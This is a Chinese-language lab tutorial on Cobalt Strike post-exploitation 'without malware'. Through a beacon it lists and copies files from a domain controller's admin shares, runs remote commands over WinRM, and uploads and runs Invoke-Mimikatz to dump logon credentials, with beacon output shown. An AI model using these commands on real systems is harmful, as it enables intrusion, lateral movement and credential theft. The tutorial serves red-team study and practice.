

# Cobalt Strike — 3、无需恶意软件

## 3、无需恶意软件

如果一个系统信任我们为本地管理员权限，那么我们可以在那个系统上干什么呢？

**查看共享文件**

比如我们可以通过运行下面的命令来列出 C:\foo 的共享文件

```powershell
shell dir \\host\C$\foo
```

```powershell
beacon> shell dir \\WinDC\C$
[*] Tasked beacon to run: dir \\WinDC\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WinDC\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WinDC\C$ 的目录
2020/06/24  09:29    <DIR>          inetpub
2009/07/14  11:20    <DIR>          PerfLogs
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件              0 字节
               6 个目录 28,500,393,984 可用字节
```

**复制文件**

比如运行下面的命令将 `secrets.txt`文件复制到当前目录。

```powershell
shell copy \\host\C$\foo\secrets.txt
```

```powershell
beacon> shell copy \\WinDC\C$\foo\secrets.txt
[*] Tasked beacon to run: copy \\WinDC\C$\foo\secrets.txt
[+] host called home, sent: 93 bytes
[+] received output:
已复制         1 个文件。
```

**查看文件列表**

比如运行下面的命令。其中 /S 表示列出指定目录及子目录所有文件，/B 表示使用空格式，即没有标题或摘要信息。

```powershell
shell dir /S /B \\host\C$
```

```powershell
beacon> shell dir /S /B \\WinDC\C$\Users
[*] Tasked beacon to run: dir /S /B \\WinDC\C$\Users
[+] host called home, sent: 67 bytes
[+] received output:
\\WinDC\C$\Users\administrator
\\WinDC\C$\Users\Classic .NET AppPool
\\WinDC\C$\Users\Daniel
\\WinDC\C$\Users\Public
\\WinDC\C$\Users\administrator\Contacts
\\WinDC\C$\Users\administrator\Desktop
\\WinDC\C$\Users\administrator\Documents
\\WinDC\C$\Users\administrator\Downloads
\\WinDC\C$\Users\administrator\Favorites
……内容过多，余下部分省略……
```

**使用 WinRM 运行命令**

WinRM 运行在 5985 端口上，WinRM 是 Windows 远程管服务，使用 WinRM 可以使远程管理更容易一些。

如果想利用 WinRM 运行命令则可以使用下面的命令。

```powershell
powershell Invoke-Command -ComputerName TARGET -ScriptBlock {command here}
```

```powershell
beacon> powershell Invoke-Command -ComputerName WinDC -ScriptBlock { net localgroup administrators}
[*] Tasked beacon to run: Invoke-Command -ComputerName WinDC -ScriptBlock { net localgroup administrators}
[+] host called home, sent: 303 bytes
[+] received output:
别名     administrators
注释     管理员对计算机/域有不受限制的完全访问权
成员
-------------------------------------------------------------------------------
Administrator
Domain Admins
Daniel
Enterprise Admins
命令成功完成。
```

注：如果命令运行失败可能是因为 WinRM 配置原因，可在 powershell 环境下运行 `winrm quickconfig`命令，输入 `y` 回车即可。

命令运行后的结果，WinRM 也将通过命令行进行显示，因此可以使用 Powershell 的 Invoke 命令来作为远程工具，而不使用其他的恶意软件来控制系统。

**通过 WinRM 运行 Mimikatz**

更进一步，甚至可以使用 PowerSploit 来通过 WinRM 运行 Mimikatz，只需要先导入 Invoke-Mimikatz.ps1 文件，再执行以下命令即可。

```powershell
powershell-import /path/to/Invoke-Mimikatz.ps1
powershell Invoke-Mimikatz -ComputerName TARGET
```

> 注：之前提了很多次的 PowerView 也是 PowerSploit 项目里众多 ps1 文件之一，Mimikatz 的 ps1 文件在 PowerSploit 项目的 Exfiltration 目录下，PowerSploit 项目下载地址：<https://github.com/PowerShellMafia/PowerSploit/>

因为 beacon 上传文件大小限制在1MB，而 Invoke-Mimikatz.ps1 文件大小在 2 MB 多，因此直接运行 `powershell-import` 导入该文件会报错，这里可以选择使用 beacon 中的 upload 命令或者在当前会话的 File Browser 图形界面中上传该文件。

```powershell
upload C:\path\Invoke-Mimikatz.ps1
```

上传之后通过 dir 命令可以查看到文件被上传到了C盘下，之后可以运行以下命令来导入该文件。

```powershell
powershell import-module C:\Invoke-Mimikatz.ps1
```

最后再运行以下命令就能通过 WinRM 执行 Mimikatz 了。

```powershell
powershell Invoke-Mimikatz -ComputerName TARGET
```

如果提示`无法将“Invoke-Mimikatz”项识别为 cmdlet、函数……`，则可以将两条命令以分号合并在一起运行，即：

```plain
powershell import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName TARGET
```

```powershell
beacon> powershell import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName WinDC
[*] Tasked beacon to run: import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName WinDC
[+] host called home, sent: 287 bytes
[+] received output:

  .#####.   mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 20 modules * * */

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 314628 (00000000:0004cd04)
Session           : Interactive from 1
User Name         : administrator
Domain            : TEAMSSIX
Logon Server      : WinDC
Logon Time        : 2020/8/20 23:53:08
SID               : S-1-5-22-3301978333-983314215-684642015-500
    msv :	
     [00000003] Primary
     * Username : Administrator
……内容过多，余下部分省略……
```



终于把碰到的坑都填完了，睡觉……
